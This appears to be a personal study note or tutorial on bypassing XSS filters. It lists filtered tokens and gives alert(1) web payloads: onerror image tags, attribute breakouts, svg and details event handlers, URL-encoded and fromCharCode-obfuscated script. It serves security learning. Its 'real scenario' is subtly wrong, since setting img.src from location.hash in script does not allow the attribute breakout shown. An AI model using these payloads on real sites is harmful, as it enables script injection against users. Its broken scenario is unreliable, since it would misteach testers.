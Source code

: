 # Filter Bypasses & Payload Tweaks
> Objective: Learn how to bypass basic XSS filters 
using smart payload tricks and quote-breaking techniques.
-----

## What filters usually block
	- <script> tags
	- alert, eval, or dangerous JS functions
	- Quotes (' and ")
	- onerror, onload, javascript:
	- Angle brackets (<, >) and encoded versions

## Bypass Techniques
1.Image Error Trigger
`<img src=x onerror=alert(1)>`
- Fails to load = triggers onerror

2. Break out of attributes
If app outputs this:

`<img src="USER_INPUT.jpg">`

You inject:
`" onerror="alert(1)//`

Result:

`<img src="x" onerror="alert(1)//.jpg">`
JS executes before .jpg is parsed.

3. Alternative Tags

`<svg/onload=alert(1)>
<details open ontoggle=alert(1)>`

Browsers allow JS in weird tags.

4. Encoded Payloads

`%3Cimg%20src%3Dx%20onerror%3Dalert(1)%3E`

Great for URL injection.

⸻

🔐 Obfuscated JavaScript

Use ASCII to bypass alert filters:

`<script>
  eval(String.fromCharCode(97,108,101,114,116,40,49,41))
</script>`

This runs alert(1) without writing alert(1)

Use https://string.fromcharcode.com to generate these.

⸻

## Real Scenario Practice

App sets:

img.src = location.hash.substring(1) + ".jpg";

You inject in URL:

`#x" onerror="alert(1)//`

Result:

`<img src="x" onerror="alert(1)//.jpg">`

✅ Alert pops before .jpg loads.

⸻

🧠 DOM Refresher (Important)

DOM is not the page or console.
It’s the live JavaScript representation of the page.
JS sees and manipulates the DOM.

You modify the DOM through:
	•	Browser console
	•	JavaScript code
	•	Payloads injected into the page

⸻